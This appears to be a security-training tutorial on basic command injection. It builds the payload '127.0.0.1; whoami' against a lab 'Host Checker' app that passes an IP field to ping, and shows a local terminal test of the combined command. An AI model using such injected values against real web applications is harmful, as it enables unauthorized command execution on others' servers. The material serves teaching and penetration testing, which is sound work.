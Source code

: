 # Basic Command Injection Exploitation

> **⚡ Practical Exploitation:** Step-by-step command injection exploitation techniques and front-end bypass methods

## Overview

After identifying a potentially vulnerable web application through detection methods, the next step is to craft and execute successful command injection payloads. This section demonstrates practical exploitation techniques, including bypassing common front-end validation mechanisms.

**Focus:** Transitioning from detection to successful command execution through systematic payload crafting and delivery.

---

## Basic Injection Attempt

### Initial Payload Construction

**Target:** Host Checker web application  
**Vulnerable Parameter:** IP address input field  
**Expected Backend Command:** `ping -c 1 OUR_INPUT`

**Payload Construction:**
```bash
# Base input
127.0.0.1

# Injection operator
;

# Injected command  
whoami

# Final payload
127.0.0.1; whoami
```

**Resulting Backend Command:**
```bash
ping -c 1 127.0.0.1; whoami
```

### Local Verification

**Testing Payload Locally:**
```bash
# Verify the command works before injection
21y4d@htb[/htb]$ ping -c 1 127.0.0.1; whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=1.03 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.034/1.034/1.034/0.000 ms
21y4d
```
